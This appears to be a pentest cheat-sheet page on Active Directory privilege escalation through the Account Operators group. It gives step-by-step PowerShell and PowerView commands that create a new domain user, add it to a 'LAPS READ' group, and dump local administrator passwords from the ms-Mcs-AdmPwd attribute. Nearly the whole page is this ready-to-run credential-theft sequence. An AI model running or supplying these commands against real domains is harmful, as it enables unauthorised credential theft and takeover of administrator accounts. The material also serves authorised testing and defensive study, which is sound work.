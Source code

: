 ```yaml
---
title: "Account Operators"
date: 2024-7-23
tags: ["Credential Dumping", "AddMember", "Account Operators", "Active Driectory", "Windows", "LAPS"]
---
```


### Privesc #1: Create a new user account and add it to LAPS (Local Administrator Password Solution) group

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Import PowerView.ps1 

```console
. .\PowerView.ps1
```

#### 2. Create a cred object (runas) \[optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 3. Create a new user password object

```console
$new_user_password = ConvertTo-SecureString '<NEW_USER_PASSWORD>' -AsPlainText -Force
```

#### 4. Create a new user account

```console
New-AdUser '<NEW_USER>' -enabled $true -accountpassword $new_user_password -Credential $cred
```

#### 5. Add the new user to LAPS group

```console
Add-DomainGroupMember -Identity 'LAPS READ' -Members '<NEW_USER>' -Credential $cred
```

#### 6. Read LAPS password

```console
# Run as the new user
Get-AdComputer -Filter * -Properties ms-Mcs-AdmPwd
```

{{< /tabcontent >}}
